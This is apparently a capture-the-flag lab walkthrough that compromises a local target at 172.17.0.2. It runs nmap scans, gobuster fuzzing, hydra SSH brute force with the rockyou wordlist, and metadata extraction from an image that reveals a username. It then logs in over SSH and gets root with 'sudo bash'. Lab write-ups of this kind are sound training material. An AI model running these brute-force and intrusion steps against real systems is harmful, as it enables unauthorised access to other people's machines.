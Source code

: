 ![image](https://github.com/user-attachments/assets/374ceb90-ec8a-43da-bbe0-7d01e2960b58)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250122120119](https://github.com/user-attachments/assets/98063268-bfb7-4166-986b-f7dac808a972)
![Pasted image 20250122120143](https://github.com/user-attachments/assets/65ccbff3-f3d5-4fa6-8b05-5fadebdba089)
![Pasted image 20250122120214](https://github.com/user-attachments/assets/b2fe590c-57b9-496b-b5dc-78d3aefc0cbc)

## **Web Page**

![Pasted image 20250122120245](https://github.com/user-attachments/assets/f6e86c53-a46c-4f90-809d-4b9a04d11cec)

## **let's see the source code**
``CTRL+U``
![Pasted image 20250122120309](https://github.com/user-attachments/assets/c378dee1-f088-4ad0-ae8c-67e4eaf990f2)

## **and we only have one image nothing specific so we will continue researching and fuzziong trying to identify hidden directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```
![Pasted image 20250122120426](https://github.com/user-attachments/assets/ad258bad-6ab2-4037-9f81-a885d3ef8e7c)

## **we have not obtained any result so we are going to try to brute force the SSH service**
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

## **one of the things we have overlooked is that we have an image to blame that could have hidden information.**

## **Download the image**
```bash
wget -c http://172.17.0.2/imagen.jpeg
```
![Pasted image 20250122120942](https://github.com/user-attachments/assets/49916c37-931e-4a2d-b445-c9072f6798c9)

```bash
steghide extract -sf imagen.jpeg
```
![Pasted image 20250122121808](https://github.com/user-attachments/assets/d0ad5f4d-d1eb-4830-8944-ed39d1b91584)

## **well we have not been able to find anything so we will keep looking at the image as this is what it doesn't say.**
```bash
exiftool imagen.jpeg
```
![Pasted image 20250122122211](https://github.com/user-attachments/assets/06b2d2cc-c6cb-4995-ba27-a9b960e7089f)

## **we already have a user now it's time to find a passwrd**
```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```
![Pasted image 20250122122346](https://github.com/user-attachments/assets/8da844c8-a213-4b0c-aa46-d277f6b71e39)

```bash
ssh borazuwarah@172.17.0.2
```
![Pasted image 20250122122516](https://github.com/user-attachments/assets/d74368cf-ba89-4f05-bd59-24fdb9d06675)

## **we will try to elevate privileges**
```bash
sudo -l
```
![Pasted image 20250122122702](https://github.com/user-attachments/assets/7efe8d57-29f5-4ea6-b9ea-bac7b4d9970d)

```bash
sudo bash
```
![Pasted image 20250122122847](https://github.com/user-attachments/assets/d75b5eb3-84e6-4a91-9294-56e9110900af)









